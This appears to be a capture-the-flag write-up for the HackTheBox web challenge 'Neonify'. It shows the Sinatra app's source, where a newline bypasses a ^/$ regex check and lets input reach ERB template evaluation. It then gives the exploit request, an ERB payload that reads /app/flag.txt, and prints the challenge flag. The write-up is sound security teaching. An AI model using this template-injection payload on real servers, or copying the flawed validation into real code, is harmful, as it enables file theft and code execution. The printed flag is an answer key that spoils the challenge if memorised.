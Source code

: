```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - ERB
  - SSTI
  - evasion
  - regex
  - ruby
---
```

>[!quote]
> *It's time for a shiny new reveal for the first-ever text neonifier. Come test out our brand new website and make any text glow like a lo-fi neon tube!*


# Set up

- **Dockerfile**
    
    ```bash
    FROM ruby:2.7.5-alpine3.15
    
    # Install supervisor
    RUN apk add --update --no-cache supervisor
    
    # Setup user
    RUN adduser -D -u 1000 -g 1000 -s /bin/sh www
    
    # Copy challenge files
    RUN mkdir /app
    COPY challenge/ /app
    COPY config/supervisord.conf /etc/supervisord.conf
    
    # Install dependencies
    WORKDIR /app
    RUN bundle install
    RUN gem install shotgun
    
    # Expose the app port
    EXPOSE 1337
    
    # Start supervisord
    ENTRYPOINT ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]
    ```
    
- **builder-docker.sh**
    
    ```bash
    docker build -t web_neonify .
    docker run  --name=web_neonify --rm -p1337:1337 -it web_neonify
    ```
    

# Information Gathering

## Screenshots

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396.png)

```
POST / HTTP/1.1
Host: 167.71.139.192:30707
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://167.71.139.192:30707
Connection: close
Referer: http://167.71.139.192:30707/
Upgrade-Insecure-Requests: 1

neon=test
```

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396%201.png)

## Source code

- **config.ru**
    
    ```ruby
    require_relative './config/environment'
    run NeonControllers
    ```
    
- **environment.rb**
    
    ```ruby
    require 'bundler/setup'
    
    APP_ENV = ENV["RACK_ENV"] || "development"
    
    Bundler.require :default, APP_ENV.to_sym
    
    require 'rubygems'
    require 'bundler'
    
    require_rel '../app'
    ```
    
- **index.erb**
    
    ```ruby
    <!DOCTYPE html>
    <html>
    <head>
        <title>Neonify</title>
        <link rel="stylesheet" href="stylesheets/style.css">
        <link rel="icon" type="image/gif" href="/images/gem.gif">
    </head>
    <body>
        <div class="wrapper">
            <h1 class="title">Amazing Neonify Generator</h1>
            <form action="/" method="post">
                <p>Enter Text to Neonify</p><br>
                <input type="text" name="neon" value="">
                <input type="submit" value="Submit">
            </form>
            <h1 class="glow"><%= @neon %></h1>
        </div>
    </body>
    </html>
    ```
    
- **neon.rb**
    
    ```ruby
    class NeonControllers < Sinatra::Base
    
      configure do
        set :views, "app/views"
        set :public_dir, "public"
      end
    
      get '/' do
        @neon = "Glow With The Flow"
        erb :'index'
      end
    
      post '/' do
        if params[:neon] =~ /^[0-9a-z ]+$/i
          @neon = ERB.new(params[:neon]).result(binding)
        else
          @neon = "Malicious Input Detected"
        end
        erb :'index'
      end
    
    end
    ```
    

# The Bug

- The application is vulnerable to SSTI because user controlled input is reflected within templates.
- The regex is misconfigured and can be bypassed using a multi-line input containing new-lines.
    
    [Difference between \A \z and ^ $ in Ruby regular expressions](https://stackoverflow.com/questions/577653/difference-between-a-z-and-in-ruby-regular-expressions)

>[!warning]
> If you're depending on the regular expression for validation, you always want to use `\A` and `\z`. `^` and `$` will only match up **until a newline character**, which means they could use an email like `me@example.com\n<script>dangerous_stuff();</script>` and still have it validate, since the regex only sees everything before the `\n`.


# Exploitation

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396%202.png)

```
POST / HTTP/1.1
Host: 167.71.139.192:30707
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://167.71.139.192:30707
Connection: close
Referer: http://167.71.139.192:30707/
Upgrade-Insecure-Requests: 1

neon=<%25%3d+File.open('/app/flag.txt').read+%25>
7
```

![Untitled](../../zzz_res/attachments/Neonify%20037ad3b44afe4e60899226c37de2c396%203.png)

# Flag

>[!success]
>`HTB{r3pl4c3m3n7_s3cur1ty}`

